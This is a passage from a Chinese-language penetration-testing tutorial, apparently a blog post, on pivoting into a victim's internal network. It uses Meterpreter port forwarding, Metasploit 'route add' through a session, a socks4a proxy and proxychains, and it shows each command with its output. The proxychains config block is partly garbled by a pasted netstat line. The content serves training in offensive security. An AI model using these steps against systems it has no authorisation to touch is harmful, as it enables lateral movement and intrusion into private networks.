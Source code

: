接着连接本地2222端口即可连接受害机器10.1.1.129 3389端口，如下：
<pre class="prettyprint lang-html prettyprinted">root@kali:~# rdesktop 127.1.1.0:2222</pre>
<img class="lazy " title="1111.jpg" src="http://www.evil0x.com/wp-content/uploads/2015/01/14212210266496.jpg" alt="" data-original="http://www.evil0x.com/wp-content/uploads/2015/01/14212210266496.jpg" />

可以看到，已经成功连接到10.1.1.129 的3389端口

2. pivot

pivot是meterpreter最常用的一种代理，可以轻松把你的机器代理到受害者内网环境，下面介绍下pivot的搭建和使用方法

使用方法route add   目标i或ip段     Netmask 要使用代理的会话，通过实例来说明：

在metasploit添加一个路由表，目的是访问10.1.1.129将通过meterpreter的会话 1 来访问：
<pre class="prettyprint lang-html prettyprinted">msf exploit(handler) > route add 10.1.1.129 255.255.255.255 1
[*] Route added
msf exploit(handler) > route print 
Active Routing Table
====================
   Subnet             Netmask            Gateway
   ------             -------            -------
   10.1.1.129         255.255.255.255    Session 1</pre>
这里如果要代理10.1.1.129/24 到session 1，则可以这么写
<pre class="prettyprint lang-html prettyprinted">route add 10.1.1.0 255.255.255.0 1</pre>
到这里pivot已经配置好了，你在msf里对10.1.1.129进行扫描(db_nmap)或者访问(psexe 模块，ssh模块等)将通过代理session 1这个会话来访问。

如果想通过其他应用程序来使用这个代理怎么办呢，这时候可以借助 metasploit socks4a提供一个监听隧道供其他应用程序访问：

首先使用 socks4a并且配置，监听端口
<pre class="prettyprint lang-html prettyprinted">msf exploit(handler) > use auxiliary/server/socks4a 
msf auxiliary(socks4a) > show options 
Module options (auxiliary/server/socks4a):
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The address to listen on
   SRVPORT  1080             yes       The port to listen on.
Auxiliary action:
   Name   Description
   ----   -----------
   Proxy  
msf auxiliary(socks4a) > exploit -y
[*] Auxiliary module execution completed
msf auxiliary(socks4a) > 
[*] Starting the socks4a proxy server</pre>
查看监听端口
<pre class="prettyprint lang-html prettyprinted">root@kali:~# netstat -an | grep "1080"
tcp        0      0 0.0.0.0:1080            0.0.0.0:*               LISTEN</pre>
端口已经监听，接着配置 proxychains
<pre class="prettyprint lang-html prettyprinted">root@kali:~# vim /etc/proxychains.conf
[ProxyList]
# add proxy here ...
# meanwileroot@kali:~# netstat -an | grep "1080"
tcp        0      0 0.0.0.0:1080            0.0.0.0:*               LISTEN 
# defaults set to "tor"
socks4  127.0.0.1 1080</pre>
配置好以后看看使用 proxychains进行代理访问，这里访问10.1.1.129 3389端口
